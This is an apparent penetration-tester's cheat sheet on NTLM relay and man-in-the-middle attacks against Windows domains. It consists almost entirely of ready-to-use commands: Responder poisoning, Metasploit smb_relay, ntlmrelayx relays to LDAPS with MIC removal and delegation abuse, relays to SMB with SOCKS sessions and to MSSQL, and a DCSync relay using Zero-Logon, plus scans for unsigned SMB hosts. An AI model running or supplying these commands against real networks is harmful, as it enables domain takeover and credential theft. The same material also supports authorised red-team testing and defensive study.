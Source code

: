 # Mitm  
  
  
## Listen 
	🔥 responder -I eth0 (use --lm to force lm downgrade)  
    	smbclient.py  
  
  
## NTLM Relay  
  
relay on itself (#windows200 / windows server2008) - MS08-068  
		use exploit/windows/smb/smb_relay   
  
SMB -> LDAP(S)  
	NetNTLMv1 / remove mic  
	NetNTLMv2 /	 remove mic (CVE-2019-1040)  
	relay to LDAP  
		ntlmrelayx.py -t ldaps://<dc> --remove-mic --add-computer <computer_name> <computer_password> --delegate-access -smb2support  
  
##SMB unsigned  
	Find SMB not signed (default on non DC)  
		nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK 
		use exploit/windows/smb/smb_relay  
		cme smb $hosts --gen-relay-list relay.txt  
	ntlmrelayx.py  -wh <attacker_ip> -t smb://<target> -l /tmp -6 -debug  
	🔥ntlmrelayx.py  -tf targets.txt  -smb2support -socks (-6) 
  
##HTTP  
	sccm ntlm relay attack  
	http ADCS web  
  
##MSSQL  
	relay to mssql  
		ntlmrelayx.py -t mssql://<ip> -smb2support –socks  

##SMB -> Netlogon - Zero-Logon (safe method) - CVE-2020-1472  
		coerce come from dc01, relay to dc02  
		ntlmrelayx.py -t dcsync://<dc_02_ip> -smb2support -auth-smb <user>:<password>  
  
  
